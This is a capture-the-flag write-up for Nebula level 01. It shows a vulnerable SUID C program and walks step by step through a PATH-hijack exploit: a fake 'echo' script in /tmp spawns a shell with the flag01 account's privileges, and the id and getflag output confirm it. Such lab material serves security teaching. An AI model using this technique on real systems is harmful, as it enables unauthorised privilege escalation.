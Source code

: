 # Level 01
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the `level01` account with the password `level01`. Files for this level can be found in `/home/flag01`.

## Source code
```c++
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

## Writeup
The problem in this code is use `eUID` and run `echo` command in simple relative path.
We can cange the `$PATH` variable to run a custom echo command, because `/home/flag01/flag01` binary has `SUID` setted.

Write a custom `echo` command inside `/tmp` directory:

```bash
echo '/bin/sh' > /tmp/echo
```

Now change the `$PATH` variabile adding `/tmp` at the start:

```bash
export PATH=/tmp:$PATH
```

Now if one user launch `echo` command, he launch a `/bin/sh` shell.
Go to `/home/flag01` directory and run `./flag01` binary to get a shell with flag01 account, verified by writing `id` command:

```bash
level01@nebula:/home/flag01$ ./flag01 
sh-4.2$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
```

Now we can run `getflag` command:

```bash
sh-4.2$ getflag
You have successfully executed getflag on a target account
```